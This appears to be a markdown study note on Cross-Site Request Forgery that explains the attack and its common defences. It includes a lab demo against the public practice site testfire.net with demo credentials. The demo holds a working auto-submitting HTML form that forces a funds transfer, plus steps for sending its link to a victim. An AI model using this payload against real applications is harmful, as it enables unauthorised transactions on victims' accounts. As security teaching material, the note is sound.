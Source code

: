  # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)

![CSRF](../photo/csrf.png)



# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

![CSRF](../photo/anti_csrf.png)


# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC`.

2. Run web server and send the link to victim

3. Exploit